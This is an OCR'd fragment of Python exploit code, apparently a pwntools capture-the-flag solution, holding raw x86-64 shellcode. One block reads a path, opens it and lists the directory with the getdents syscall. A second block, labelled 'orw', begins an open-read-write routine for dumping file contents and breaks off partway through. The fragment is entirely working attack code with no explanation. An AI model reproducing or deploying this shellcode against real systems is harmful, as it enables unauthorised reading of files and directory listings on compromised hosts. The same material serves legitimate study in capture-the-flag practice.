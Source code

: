 ```python
        nop
        nop
        nop
        nop
        nop

        mov r8, rcx
        add r8, 0x7

        push 0x0
        sub rsp, 0xff

        mov rdx, 0xff
        mov rsi, rsp
        xor rdi, rdi
        xor rax, rax
        syscall

        xor rdx, rdx
        xor rsi, rsi
        mov rdi, rsp
        mov rax, 0x2
        syscall

        mov rdx, 0xff
        mov rsi, rsp
        mov rdi, rax
        mov rax, 0x4e
        syscall

        mov rdi, 0x1
        mov rax, rdi
        syscall

        jmp r8
''', arch='amd64')

orw = asm('''
        nop
        nop
        nop
        nop
        nop
        nop
        nop

        push 0x0
        push 0x0
        push 0x0
        push 0x0
        push 0x0
        push 0x0

        mov rdx, 0x40
        mov rsi, rsp
        mov rdi, 0x0
        xor rax, rax
        syscall

        xor rdx, rdx
        xor rsi, rsi
        mov rdi, rsp
        mov rax, 0x2
```